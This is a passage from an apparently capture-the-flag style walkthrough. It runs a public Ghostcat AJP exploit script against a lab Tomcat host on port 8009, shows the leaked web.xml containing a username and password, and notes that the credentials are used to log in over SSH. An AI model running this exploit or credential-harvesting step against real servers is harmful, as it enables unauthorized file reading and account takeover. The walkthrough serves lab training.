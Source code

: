 <figure><img src="../../.gitbook/assets/5 (61).png" alt=""><figcaption></figcaption></figure>

Our exploit should run fine now.

```
$ python3 48143.py -p 8009 10.10.106.51
Getting resource at ajp13://10.10.106.51:8009/asdf
----------------------------
b'<?xml version="1.0" encoding="UTF-8"?>\n<!--\n Licensed to the Apache Software Foundation (ASF) under one or more\n  contributor license agreements.  See the NOTICE file distributed with\n  this work for additional information regarding copyright ownership.\n  The ASF licenses this file to You under the Apache License, Version 2.0\n  (the "License"); you may not use this file except in compliance with\n  the License.  You may obtain a copy of the License at\n\n      http://www.apache.org/licenses/LICENSE-2.0\n\n  Unless required by applicable law or agreed to in writing, software\n  distributed under the License is distributed on an "AS IS" BASIS,\n  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.\n  See the License for the specific language governing permissions and\n  limitations under the License.\n-->\n<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"\n  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"\n  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee\n                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"\n  version="4.0"\n  metadata-complete="true">\n\n  <display-name>Welcome to Tomcat</display-name>\n  <description>\n     Welcome to GhostCat\n\tskyfuck:8730281lkjlkjdqlksalks\n  </description>\n\n</web-app>\n\x00'
```

So the username is `skyfuck` and the password is `8730281lkjlkjdqlksalks`.

We can now login through SSH using those credentials.

| Username | Password               |
| -------- | ---------------------- |
| skyfuck  | 8730281lkjlkjdqlksalks |
